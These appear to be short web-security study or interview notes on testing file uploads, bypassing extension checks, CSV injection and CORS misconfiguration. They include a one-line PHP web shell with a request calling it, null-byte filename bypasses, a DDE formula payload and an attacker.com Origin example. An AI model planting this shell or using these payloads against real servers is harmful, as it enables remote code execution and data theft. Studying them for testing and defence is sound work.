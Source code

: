 =========================
File Upload
========================
	<?php echo system($_GET['command']); ?>
	GET /example/exploit.php?command=id HTTP/1.1

what all things you will test on file upload fuctionality.

	File Size Limit
	File Type Validation
	File Content Validation
	Path Traversal Attacks
	Malicious File Testing
	File Overwriting
	Server-Side File Handling
	Error Handling
	Performance and Scalability
	Access Controls

How will you bypass file extension validation.
	shell.php.jpg
	shell.php%00.jpg, 	shell.php\x00.jpg


What is CSV injection it's impact and mitigation.

	DDE ("cmd";"/C calc";"!A0")A0

	Impact 	: 	Remote Code Execution, Data Leakage 

	Mitigation : 
		Input Validation and Sanitization
		Special Character Escaping
		Content-Type
		Limited Cell Formulas

==========================
CORS
========================
	https://portswigger.net/web-security/cors
	
	Cross-origin resource sharing (CORS) is a browser mechanism which enables controlled access to resources located outside of a given domain

	Impact : retrieving user setting information or saved payment card

	Request :
	Origin : attacker.com

	1st CAse:
		Response:
		Access-Controll-allow-origin: attacker.com
		Access-Controll-allow-credential:true
	
	2nd CAse:
		Response:
		Access-Controll-allow-origin: null
		Access-Controll-allow-credential:true
	